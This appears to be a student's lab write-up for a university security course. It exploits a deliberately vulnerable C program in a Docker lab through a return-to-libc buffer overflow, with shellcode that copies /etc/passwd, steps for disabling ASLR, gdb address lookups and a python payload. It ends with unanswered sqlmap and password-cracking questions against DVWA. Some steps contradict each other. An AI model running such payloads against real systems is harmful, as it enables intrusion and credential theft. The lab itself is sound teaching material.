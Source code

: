 # Lab #1,22110046, Mai Duc Kien, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:Description text (optional)


### 1. Build image Run Docker
```
docker build -t img4lab .
```
```
docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
```
![Screenshot 2024-10-21 083918](https://github.com/user-attachments/assets/b8ccbc09-5ff8-424e-bd36-c8b4a0c86ae8)
### 2. Compile asm program and c program

```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc lab1.c -o lab1.out -fno-stack-protector -mpreferred-stack-boundary=2
```
![Screenshot 2024-10-21 084953](https://github.com/user-attachments/assets/d1fea700-fd2a-411b-8109-65c0075384a8)

### 3. Before doing this lab, we have to turn off ASLR (Address Space Layout Randomization)
```
sudo sysctl -w kernel.randomize_va_space=0
```
![image](https://github.com/user-attachments/assets/948e6588-a50f-4789-95e8-f61a7220a3c2)


### 4. Now we create an environment variable in Linux with the path of file lab1.asm
```
nasm -g -f elf lab1.asm
ld -m elf_i386 -o lab1 lab1.o
pwd -> /home/seed/seclabs/bof
export exploit_path="/seclabs/bof/file_del"
```
![image](https://github.com/user-attachments/assets/4bdb34cd-9bc4-44c7-8587-1a812d3e7ae8)
![image](https://github.com/user-attachments/assets/6920c002-706d-46f6-8f61-6c2152812483)

### 5.Stack Frame

![image](https://github.com/user-attachments/assets/f207d112-107d-4f72-9fe7-e85117ab4b8b)

If we want to exploit

20 bytes to overwrite buf and ebp
4 bytes to overwrite ret addr of vuln with the address of system
4 bytes for the address of exit
4 bytes for argument of system (exploit path that we created before)

```
r $(python -c "print(20*'a' + 'address of system' + 'address of exit' + 'address of env var')")
```

### 6. Use gdb

Use gdb for this c program

```
gdb -q lab1.out
```
Start the code
```
start
```
Print out the address of those things
```
print system
print exit
find /home/seed/seclabs/bof/midterm/file_copy
```

![image](https://github.com/user-attachments/assets/30d8405e-cd3a-4476-a6fc-4f1a5c8a43f6)


0xf7e50db0: Address of libc_system
0xf7e449e0: Address of exit to avoid crashing
0xffffd91a: Address of env variable

### 7. Attack File

Before attack
![image](https://github.com/user-attachments/assets/00601137-8fcc-4e22-830d-f8f90c4d28cf)

The attack start
```
gdb -q lab1.out
```
```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x1a\xd9\xff\xff')")
```

After that, we use the code below to read file we have just copied
```
cat /tmp/outfile
```


After attacking, we see that the asm program copy /etc/passwd to /tmp/outfile, not /tmp/pwfile

Conclusion: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection.




**Conclusion**: comment text about the screenshot or simply answered text for the question


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





















































